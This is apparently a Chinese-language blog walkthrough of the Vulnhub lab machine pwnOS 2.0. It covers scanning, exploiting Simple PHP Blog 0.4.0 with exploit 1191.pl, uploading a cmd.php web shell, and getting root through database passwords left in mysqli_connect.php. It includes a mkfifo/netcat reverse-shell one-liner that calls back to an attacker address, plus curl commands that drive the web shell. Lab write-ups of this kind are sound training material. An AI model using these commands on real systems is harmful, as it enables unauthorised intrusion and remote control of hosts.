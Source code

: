 ```yaml
---
title: PWNOS2.0 
date: 2024-02-20 
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Pwnos2.html"
---
```


# PWNOS2.0

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401091.png" alt="image-20240220103740848" style="zoom:50%;" />

打开虚拟机压缩包，查看一下文件：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401092.png" alt="image-20240220104015340" style="zoom:50%;" />

打开靶机看一下，按照要求改一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401093.png" alt="image-20240220105926050" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401094.png" alt="image-20240220110215913" style="zoom:50%;" />

后来又换成了nat模式：

```bash
nmap -sn 10.10.10.0/24
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401095.png" alt="image-20240220110747048" style="zoom:50%;" />

找到目标主机了，可以开始攻击辣！

## 信息搜集

### 端口扫描

```shell
nmap --min-rate 8888 -p- 10.10.10.100
nmap -p 22,80 -Pn -sV 10.10.10.100
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401096.png" alt="image-20240220110959128" style="zoom:50%;" />

### 80端口访问

![image-20240220111348751](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401097.png)

### wappalyzer插件

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401098.png" alt="image-20240220111412077" style="zoom:50%;" />

### 目录扫描

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.100 -f -t 200
```

![image-20240220111609734](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401099.png)

## 漏洞利用

### sql 

扫描出目录以后访问一下，找到`/login`

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401100.png" alt="image-20240220112742159" style="zoom:50%;" />

尝试万能密码：

![image-20240220112904885](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401101.png)

嘶。。。。。



### blog exploit

找的时候发现了一个博客：

![image-20240220113107012](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401102.png)

查看一下源代码：

![image-20240220115147255](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401103.png)

也可以使用`whatweb`：

![image-20240220121842037](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401104.png)

发现了blog版本，查找一下相关漏洞：

![image-20240220115409707](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401105.png)

下载，并尝试运行一下：

```bash
searchsploit simple php blog 0.4.0 -m 1191.pl
```

> perl 1191.pl的时候遇到了报错：
>
> Can't locate Switch.pm in @INC (you may need to install the Switch module) (@INC contains: /etc/perl /usr/local/lib/x86_64-linux-gnu/perl/5.36.0 /usr/local/share/perl/5.36.0 /usr/lib/x86_64-linux-gnu/perl5/5.36 /usr/share/perl5 /usr/lib/x86_64-linux-gnu/perl-base /usr/lib/x86_64-linux-gnu/perl/5.36 /usr/share/perl/5.36 /usr/local/lib/site_perl) at 1191.pl line 146.
> BEGIN failed--compilation aborted at 1191.pl line 146.
>
> Solution: sudo apt-get install libswitch-perl

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401106.png" alt="image-20240220120124718" style="zoom:50%;" />

尝试利用：

```shell
perl 1191.pl -h http://10.10.10.100/blog -e 2 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401107.png" alt="image-20240220120227838" style="zoom:50%;" />

获取到了hash，但是是个被md5加密过的。。。。

尝试脚本的其他选项：

#### -e 1 上传cmd.php

```shell
perl 1191.pl -h http://10.10.10.100/blog -e 1
curl "http://10.10.10.100/blog/images/cmd.php?cmd=ls+-la"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401108.png" alt="image-20240220120932582" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401109.png" alt="image-20240220120943467" style="zoom:50%;" />

然后我们可以尝试连接一下：

```shell
curl "http://10.10.10.100/blog/images/cmd.php?cmd=nc+-h+2>%261"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401110.png" alt="image-20240220121301619" style="zoom:50%;" />

可以看到是`OpenBSD netcat`，尝试反向连接：

```bash
# rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc 10.10.10.128 1234 >/tmp/f
curl "http://10.10.10.100/blog/images/cmd.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;bash</tmp/f|nc+10.10.10.128+1234>/tmp/f+2>%261"
# kali
nc -lvnp 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401111.png" alt="image-20240220122608997" style="zoom:50%;" />

获取到了！

#### -e 3 创建用户

```bash
perl 1191.pl -h http://10.10.10.100/blog -e 3 -U admin -P password
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401112.png" alt="image-20240220133443687" style="zoom:50%;" />

登陆一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401113.png" alt="image-20240220133535620" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401114.png" alt="image-20240220133551833" style="zoom:50%;" />

登录成功了，尝试上传一个文件：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401116.png" alt="image-20240220134734699" style="zoom:50%;" />

访问一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401117.png" alt="image-20240220134815196" style="zoom:50%;" />

上传成功了！！监听再访问即可获取shell！

![image-20240220135204201](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401118.png)

`sudo -l`不知道密码，执行不了。

## 提权

```shell
cd /var/www
ls -l
# total 36                                                                                   
# -rw-r--r--  1 root root 1374 Mar 24  2008 activate.php                                     
# drwxrwxrwx 11 root root 4096 May  9  2011 blog                                             
# drwxr-xr-x  2 root root 4096 May  7  2011 includes                                         
# -rw-r--r--  1 root root  629 May  7  2011 index.php                                        
# -rw-r--r--  1 root root   23 Apr  3  2008 info.php                                         
# -rw-r--r--  1 root root 3091 May  7  2011 login.php                                         
# -rw-r--r--  1 root root  516 Apr  2  2008 mysqli_connect.php
# -rw-r--r--  1 root root 4618 Apr  2  2008 register.php 
```

```php
# cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php                                                                         

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
```

获取到了数据库的用户与密码！！！但是我一进行mysql相关命令就会卡死，不知道为啥，只能尝试一下ssh连接了。。。。

```shell
ssh root@10.10.10.100
goodday
```

![image-20240220124730394](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401119.png)

密码不正确，再找一下其他的：

```shell
find / -name 'mysqli_connect.php' 2>/dev/null
# /var/mysqli_connect.php
# /var/www/mysqli_connect.php
```

```php
# cat /var/mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
```

又得到一个用户名，尝试登录：

![image-20240220124806742](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401120.png)

获取到了root权限！